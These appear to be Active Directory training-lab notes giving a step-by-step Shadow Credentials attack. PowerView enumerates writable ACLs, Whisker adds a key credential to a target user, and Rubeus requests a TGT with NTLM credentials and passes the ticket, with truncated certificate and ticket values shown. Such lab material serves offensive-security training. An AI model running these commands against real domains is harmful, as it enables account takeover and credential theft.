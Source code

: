 # 3 Shadow Credentials

## Shadow Credentials

## Abusing User Object

### 1. Enumerate the permissions

```powershell
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "StudentUsers"}
```

### 2. Add the Shadow Credential

```powershell
Whisker.exe add /target:supportXuser
```

### 3. Using PowerView, see if the Shadow Credential is added.

```powershell
Get-DomainUser -Identity supportXuser
```

### 4. Request the TGT by leveraging the certificate

```powershell
Rubeus.exe asktgt /user:supportXuser /certificate:MIIJuAIBAzCCCXQGCSqGSIb3DQEHAaCCCW.... /password:"1OT0qAom3..." /domain:us.techcorp.local /dc:US-DC.us.techcorp.local /getcredentials /show /nowrap
```

### 5. Inject the TGT in the current session or use the NTLM hash

```powershell
Rubeus.exe ptt /ticket:doIGgDCCBnygAwIBBaEDAgEW...
```
